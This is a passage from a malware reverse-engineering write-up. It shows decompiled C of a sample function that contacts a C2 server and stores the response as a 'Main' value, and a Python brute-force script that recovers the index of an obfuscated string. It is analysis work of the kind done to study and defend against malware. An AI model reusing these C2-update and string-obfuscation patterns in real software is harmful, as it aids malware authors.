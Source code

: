 If we cross-reference on this string, we come across `FUN_180003880`.

```c
void FUN_180003880(undefined8 param_1,undefined4 *param_2)
{
    /* ... */

    uVar2 = 45A0FCD0.DLL::Ordinal_16();
    if ((uVar2 & 8) == 0) {
        // Read value 0xa0a (= "Timerversion").
        uVar2 = Ordinal_78(0xa0a,&local_res20,local_res18);
        if (uVar2 == 0) {
            /* ... */
        }

        // Send data to C2.
        iVar1 = 45A0FCD0.DLL::Ordinal_11(GLOBAL_PTR_2 ^ 0x8bd6287b,iVar3,1,0,0,0,&response_data,&response_size);
        if (iVar1 == 0) {

            // Calculate CRC32 of response.
            uVar2 = 8576B0D0.DLL::Ordinal_8(response_data,local_res18[0]);
            if (uVar2 != iVar3) {
                // Update MAIN value.
                uVar2 = FUN_1800075c0(&"Main" + BSS_RVA,response_data,response_size,uVar2);
                /* ... */
            }

            // HeapFree
            8576B0D0.DLL::Ordinal_11(local_res20);
        }
        else {
            if (iVar1 != 0x10d2) {
                45A0FCD0.DLL::Ordinal_21();
            }
        }
    }
    return;
}
```

Great, we now know that MAIN is updated every time a HTTP request is made to the C2 server! What about `DiMap` though? There is no trace of `DiMap` anywhere in any of the decrypted BSS sections, nor is it hardcoded as a string in the executable itself either. However, it does look like one of those random strings generated from that long word list. Let's find out which string index belongs to `DiMap` with [yet another Python script](script/find_dimap.py) by plain and simple bruteforce:

```python
from string_decrypter import *

original_sid = "S-1-5-21-3823548243-3100178540-2044283163-1006"
decrypter = StringDecrypter(original_sid)

for i in range(0xff):
    idx = (i << 8) | i
    x = decrypter.get_string(idx, 3)
    if x == "DiMap":
        print(x, hex(idx))
```
